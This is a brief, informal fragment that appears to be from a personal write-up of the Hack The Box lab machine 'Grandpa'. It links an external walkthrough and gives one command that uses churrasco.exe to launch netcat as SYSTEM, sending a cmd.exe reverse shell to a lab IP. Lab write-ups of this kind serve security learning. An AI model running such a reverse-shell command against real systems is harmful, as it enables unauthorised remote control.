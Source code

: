 So did find any thing much usefull othe hten metasploits and some shit


So used this writeup and followed it to get the system shell

https://0xveera.medium.com/htb-walkthrough-without-metasploit-grandpa-e95249a19711


```
churrasco.exe -d "C:\wmpub\nc.exe 10.10.14.7 7777 -e cmd.exe"
```